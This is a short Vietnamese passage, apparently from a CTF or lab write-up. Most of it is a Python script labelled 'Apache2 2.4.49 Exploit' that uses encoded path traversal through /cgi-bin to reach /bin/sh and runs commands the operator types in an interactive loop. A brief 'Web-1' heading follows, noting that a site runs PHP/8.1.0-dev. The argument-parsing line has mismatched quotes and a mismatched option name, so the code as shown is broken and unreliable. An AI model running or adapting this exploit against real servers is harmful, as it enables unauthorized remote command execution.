 - Tôi đã viết một mã khai thác như sau:

```python
import argparse
import requests


def runcmd(target):
    url = 'http://{}'.format(target)
    req = requests.get(url)
    while True:
        cmd = input("Nhap cmd:")
        if (cmd != 'exit'):
            if ('https' not in req.url):
                url = "http://{}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh".format(
                    target)
            else:
                url = "https://{}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh".format(
                    target)
            data = "echo; {}".format(cmd)
            session = requests.Session()
            req = requests.Request(
                method='POST', url=url, data=data).prepare()
            req.url = url
            print(session.send(req).text, end='')

        else:
            exit(0)


def main():
    parser = argparse.ArgumentParser(description="Apache2 2.4.49 Exploit")
    parser.add_argument(
        '-t', help=IP or Domain', required=True)
    arg = parser.parse_args()
    try:
        runcmd(arg.target)
    except KeyboardInterrupt:
        exit(1)
    except EOFError:
        exit(1)


if __name__ == '__main__':
    main()
```

## **Web-1**

- Quan sát phản hồi ta thấy rằng trang web sử dụng phiên bản :`PHP/8.1.0-dev`
